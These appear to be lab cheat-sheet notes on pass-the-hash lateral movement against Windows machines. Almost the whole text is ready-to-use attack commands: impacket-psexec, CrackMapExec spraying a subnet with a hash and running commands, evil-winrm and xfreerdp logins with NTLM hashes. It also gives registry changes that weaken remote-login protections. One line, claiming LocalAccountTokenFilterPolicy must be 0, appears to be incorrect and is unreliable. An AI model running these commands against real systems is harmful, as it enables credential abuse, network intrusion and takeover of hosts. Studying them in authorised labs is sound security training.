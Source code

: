 # Impacket
```
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
can use `impacket-wmiexec`, `atexec` and `smbexec` also

# CrackMapExec
```
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
## flags
--local-auth: authenticate to all hosts in subnet using same credentials 
	remediation: Local Administrator Password Solutions (LAPS)
-x: execute commands

# Evil-winrm 
```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

# xfreerdp
might not be possible if the setting is not enabled on the windows machine

registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be set to 0

```
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0 /f
```

enable restricted admin mode
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

then u can rdp using hash
```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


